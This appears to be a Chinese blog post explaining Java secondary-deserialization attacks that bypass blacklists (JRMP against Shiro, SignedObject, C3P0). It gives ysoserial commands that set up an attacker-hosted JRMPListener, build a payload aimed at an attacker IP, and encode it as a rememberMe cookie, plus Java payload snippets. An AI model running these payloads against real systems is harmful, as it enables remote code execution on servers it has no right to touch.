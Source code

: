 ```yaml
---
title: "常用的二次反序列化攻击"
onlyTitle: true
date: 2025-3-25 16:10:15
categories:
- java
- java杂谈
tags:
- 二次反序列化
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B8141.png
---
```




一些链被黑名单ban了，可以用二次反序列化绕过，比如JRMP

## JRMP

JDK<8U241

JRMP打RMI，在ysoserial/exploit中，JRMPClient能利用非RMI服务（如Shiro）开RMI服务，然后用exploit/JRMPLister打RMI服务

特征：

```java
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        RemoteInterface remoteImpl = (RemoteInterface) registry.lookup("remoteImpl");//lookup可被控制
```

Usage：

攻击者先在 vps上用 ysoserial 启一个恶意的 JRMPListener，监听在 19999 端口，并指定使用 CommonsCollections6 模块，要让目标执行的命令为 ping 一个域名：

```sh
java -cp ysoserial.jar ysoserial.expeseloit.JRMPListener 19999 CommonsCollections6 "ping cc6.m2pxdwq5pbhubx9p6043sg8wqnwdk2.burpcollaborator.net"
```

然后用 ysoserial 生成 JRMPClient 的序列化 payload，指向上一步监听的地址和端口（假如攻击者服务器 ip 地址为 1.1.1.1）：

```sh
java -jar ysoserial.jar JRMPClient "1.1.1.1:19999" > /tmp/jrmp.ser
```

再用 shiro 编码脚本对 JRMPClient payload 进行编码：

```sh
java -jar shiro-exp.jar encrypt /tmp/jrmp.ser
```

将最后得到的字符串 Cookie 作为 rememberMe Cookie 的值，发送到目标网站。如果利用成功，则前面指定的 ping 命令会在目标服务器上执行。



## SignedObject

SignedObject.getObject能反序列化this.content：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014214004303.png)

content能在构造函数赋值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014214038344.png)

适用于嵌套解析的resolveClass黑名单，比如Fastjson>=1.2.49

JSONObject重写的resolveClass，加入checkAutoType验证黑名单

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014222919494.png)

也适用于不能触发readObject而不能初始化TemplatesImpl `_tfactory`字段的场景，比如自定义反序列化流程的Hessian、Kryo等

code：

```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(恶意对象 用于第二次反序列化, kp.getPrivate(), Signature.getInstance("DSA"));
```

然后调用signedObject.getObject



## C3P0

漏洞入口位于com.mchange.v2.ser.C3P0ImplUtils.parseUserridesAsString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016172934901.png)

parseUserridesAsString对传入的参数userOverridesAsString字符串处理如下：

1. 从`HASM_HEADER`长度开始，截取到userOverridesAsString的末尾

HASM_HEADER为`HexAsciiSerializedMap`

2. 调用`ByteUtils.fromHexAscii`把截取的十六进制字符串转为二进制
3. 调用`SerializableUtils.fromByteArray`反序列化字节码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016174046772.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241016174053242.png)

向parseUserOverridesAsString传参`HexAsciiSerializedMap+恶意十六进制字节码`就能二次反序列化





